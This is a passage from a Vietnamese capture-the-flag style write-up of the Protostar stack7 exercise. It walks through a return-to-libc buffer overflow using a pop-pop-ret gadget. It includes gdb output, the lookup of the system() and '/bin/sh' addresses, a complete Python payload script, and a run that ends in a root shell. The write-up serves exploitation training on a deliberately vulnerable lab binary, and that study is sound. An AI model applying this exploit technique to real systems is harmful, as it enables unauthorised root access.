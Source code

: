 ```
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) x/x $ebp
0x54545454:	Cannot access memory at address 0x54545454  <-- 'TTTT'
(gdb) 
```
Tiếp đến là địa chỉ của `system()` , `exit()` và `/bin/sh`:  
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit 
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) quit
user@protostar:/opt/protostar/bin$ strings -td /lib/libc-2.11.2.so | grep /bin/sh
1176511 /bin/sh
user@protostar:/opt/protostar/bin$ 
```
Bước cuối là tìm địa chỉ của `gadget` ở đây mình dùng `pop pop ret`:  
```
user@protostar:/opt/protostar/bin$ objdump -d stack7 | grep -a2 pop
```
Mình đã lấy cái đầu tiên tìm được:  
```
--
 80485f2:	75 f4                	jne    80485e8 <__do_global_ctors_aux+0x18>
 80485f4:	83 c4 04             	add    $0x4,%esp
 80485f7:	5b                   	pop    %ebx 			<-- địa chỉ bắt đầu
 80485f8:	5d                   	pop    %ebp
 80485f9:	c3                   	ret    
 80485fa:	90                   	nop
```
Giải thích một chút, do địa chỉ ret ta đã thay thế vào bắt đầu bằng 0x0 != 0xb vậy nên `if` sẽ được bỏ qua và có thể tiến đến thực hiện việc `pop-pop-ret`. Ta sẽ cần thêm 2 biến garbage dùng cho câu lệnh `pop` và `ret` sẽ trả về giá trị trên đỉnh `stack`(mình đã giải thích ở stack3) vậy nên ngay sau `pop-pop-ret` sẽ là địa chỉ của `system()` và ta có thể chạy bình thường :3
Ghép lại thành file payload nào :>  
```
import struct
pd = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTT"
ppr = struct.pack("I",0x080485f7)
pop1 = "AAAA"
pop2 = "BBBB"
sysadd = struct.pack("I",0xb7ecffb0)
exitadd = struct.pack("I",0xb7ec60c0)
binadd = struct.pack("I",0xb7e97000+1176511)
payload = pd + ppr + pop1 + pop2 + sysadd + exitadd + binadd
print payload
```
Chạy file payload để lấy shell:  
```
user@protostar:/opt/protostar/bin$ (python /tmp/payload.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT�AAAABBBB����`췿c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```
